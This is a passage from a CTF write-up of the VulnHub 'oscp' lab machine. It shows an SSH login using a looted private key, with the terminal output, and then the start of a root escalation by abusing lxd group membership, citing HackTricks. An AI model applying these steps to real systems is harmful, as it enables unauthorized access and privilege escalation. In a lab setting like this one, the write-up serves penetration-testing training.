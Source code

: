 At this point, I needed to figured out which user this key belonged to.
From reading the web page, I noticed that one user was named `oscp`, so I had two candidate users:

* oscp
* root

I was then able to use the private key to log in as the `oscp` user:

```none
kali@kali:~/ctf/vulnhub/oscp/web/loot$ chmod 700 secret.pt
kali@kali:~/ctf/vulnhub/oscp/web/loot$ ssh -i secret.pt oscp@192.168.254.157
The authenticity of host '192.168.254.157 (192.168.254.157)' can't be established.
ECDSA key fingerprint is SHA256:j6pDoPWkkeKgplTqHPtxSxrMqrQRMPl5AIW2Lfn14y8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.254.157' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 21 Sep 2020 05:59:52 PM UTC

  System load:  0.08               Processes:             208
  Usage of /:   26.3% of 19.56GB   Users logged in:       0
  Memory usage: 69%                IPv4 address for eth0: 192.168.254.157
  Swap usage:   2%


111 updates can be installed immediately.
46 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Sat Jul 11 16:50:11 2020 from 192.168.128.1
-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

## Privilege Escalation (Abusing lxd group privileges)

I checked the current groups the compromised `oscp` user was part of:

```none
-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

Notably, the `oscp` user was part of the `lxd` group. This meant that this user implicitly had read/write/execute privileges as root without requiring a password.

From here, I started building an Alpine Linux container so that I could eventually mount it to access the host's root file system with write privileges.
I used the following article from [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) as a reference:
